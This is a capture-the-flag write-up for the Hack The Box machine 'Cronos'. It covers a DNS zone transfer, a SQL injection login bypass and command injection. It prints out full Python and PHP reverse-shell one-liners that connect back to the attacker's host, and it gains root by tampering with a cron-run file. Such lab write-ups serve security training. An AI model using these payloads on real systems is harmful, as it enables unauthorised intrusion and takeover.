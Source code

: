 # Cronos

This is my write-up for the machine **Cronos** on Hack The Box located at: [https://app.hackthebox.com/machines/Cronos](https://app.hackthebox.com/machines/Cronos).

nmap scan: `nmap 10.10.10.13`

![](<../../.gitbook/assets/image (341) (1) (1) (1).png>)

We see three ports open. On port 80, we see the following:&#x20;

![](<../../.gitbook/assets/image (333).png>)

I am not too familiar with DNS enumeration methods. For this reason, after I searched online for a while (and got nowhere), I then read up what I had missed from the official Hack The Box write-up for this machine. In it the author says to add **cronos.htb** to the **/etc/hosts** file. Then run the following command:

`dig axfr @10.10.10.13 cronos.htb`

This will show us the following:

![](<../../.gitbook/assets/image (327) (1).png>)

We see an **admin.cronos.htb**, so we will add that to the **/etc/hosts** file as well (step was mentioned in the official write-up):

![](<../../.gitbook/assets/image (338) (1).png>)

Now if we go to **admin.cronos.htb**, we see the following:

![](<../../.gitbook/assets/image (347) (1) (1) (1).png>)

Looking at the tags for this machine, I believe that we have to do a SQL Injection for this authentication portal:

![](<../../.gitbook/assets/image (367) (1) (1).png>)

I then opened this web page in Burp Suite to see if I can manipulate the outgoing HTTP requests. I was not able to get any where using the **Intruder** or **Repeater** modules. Reading the write-up again, it seems the SQL Injection I did try **admin'--** was incorrect by a small bit. I miseed the extra **" -"** at the end:

![screenshot from official write-up](<../../.gitbook/assets/image (332) (1).png>)

I was then on this page:

![](<../../.gitbook/assets/image (346) (1) (1) (1).png>)

I tried to run two commands together, the traceroute and an additional **ls**:

![](<../../.gitbook/assets/image (335) (1) (1).png>)

When I run `cat index.php`, I get the following:

![](<../../.gitbook/assets/image (359) (1).png>)

To me this means that there is room for me to run a reverse netcat connection to my own machine. Netcat did not work for me but the following python command from [this github page](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python) worked for me instead:

`export RHOST="10.10.14.14";export RPORT=4242;python -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'`

&#x20;

![](<../../.gitbook/assets/image (361) (1) (1).png>)

I then upgraded by shell to a interactive tty shell (from [this website](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)):

![](<../../.gitbook/assets/image (334) (1) (1) (1).png>)

I was able to find the user.txt flag in the user **noulis**'s home directory:

![](<../../.gitbook/assets/image (363) (1) (1) (1) (1).png>)

In order to upload **linpeas.sh** to the machine, I had to download it locally and serve it up in a python http server:

![](<../../.gitbook/assets/image (357) (1).png>)

I was then able to grab it from the other machine using **wget**:

![](<../../.gitbook/assets/image (358) (1).png>)

In the official write-up, something stood out to me:

![](<../../.gitbook/assets/image (364) (1) (1).png>)

Obviously, in the real world a hint like this would not be given, but since I had tried what I had known and got nowhere, I took a hint from this. This led me to finding this:

![](<../../.gitbook/assets/image (360) (1) (1).png>)

I knew that root was running the **artisan** file. After some messing around, what worked for me was creating a local file named artisan and copying all the contents from the original file into it. Then I edited one line in the file to get me a reverse shell:

`$sock=fsockopen("10.10.14.14",4242);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);`

This was a line I got from the [same GitHub page mentioned previously](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#php). After uploading the file using python3 http server, the file would upload as **artisan.1**:

![](<../../.gitbook/assets/image (356).png>)

As shown in the screenshot above, in order to go around this I just updated the file to be the one I gave it. I would recommend you run the netcat listener **prior** to updating the artisan file for best results. After a minute of waiting, I had the shell:

![](<../../.gitbook/assets/image (365) (1).png>)
